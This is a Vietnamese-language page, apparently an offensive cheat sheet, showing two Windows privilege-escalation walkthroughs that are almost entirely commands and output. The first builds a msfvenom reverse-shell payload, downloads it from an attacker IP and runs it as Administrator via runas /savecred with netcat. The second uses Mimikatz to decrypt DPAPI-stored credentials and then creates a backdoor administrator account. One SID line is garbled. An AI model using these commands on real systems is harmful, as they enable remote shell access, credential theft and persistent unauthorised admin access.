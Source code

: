 ## Ví dụ khai thác

### Khai thác Runas với Stored Credentials

**Kịch bản mẫu**: Tài khoản người dùng trên Windows Server 2019 có thông tin xác thực quản trị lưu trữ cho `ACCESS\Administrator`, quyền ghi trên `C:\Temp`. Triển khai reverse shell với `runas /savecred`.\
**Output**:

```
cmdkey /list
Target: Domain:interactive=ACCESS\Administrator

icacls C:\Temp
BUILTIN\Users:(M)

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o nc.exe
iwr -Uri http://192.168.1.100/nc.exe -OutFile C:\Temp\nc.exe

runas /user:ACCESS\\Administrator /savecred "C:\Temp\nc.exe -e powershell 192.168.1.100 4444"

nc -lvnp 4444
Connection from 192.168.1.101:45678
whoami
access\administrator
```

### Khai thác DPAPI để Trích xuất Mật khẩu

**Kịch bản mẫu**: Tài khoản người dùng trên Windows 10 có quyền truy cập vào tệp DPAPI tại `C:\Users\security\AppData\Local\Microsoft\Credentials`, biết mật khẩu người dùng (`titan1506`). Sử dụng Mimikatz để giải mã thông tin xác thực.\
**Output**:

```
cmd /c "dir /S /AS C:\\Users\\security\\AppData\\Local\\Microsoft\\Credentials"
C:\Users\security\AppData\Local\Microsoft\Credentials\7505A1CE4F953BF9CA27E7CD22747C7E

mimikatz # dpapi::masterkey /in:3296853f-c42b-4ee0-a317-be49c5447823 /sid:S-1-5-21 primes1412805706-2265949842-2593025800-1001 /password:titan1506
Masterkey: <key>

dpapi::cred /in:7505A1CE4F953BF9CA27E7CD22747C7E
Username: admin
Password: secret123

net user hacker secret123 /add
net localgroup Administrators hacker /add
The command completed successfully
```

* Run as other user
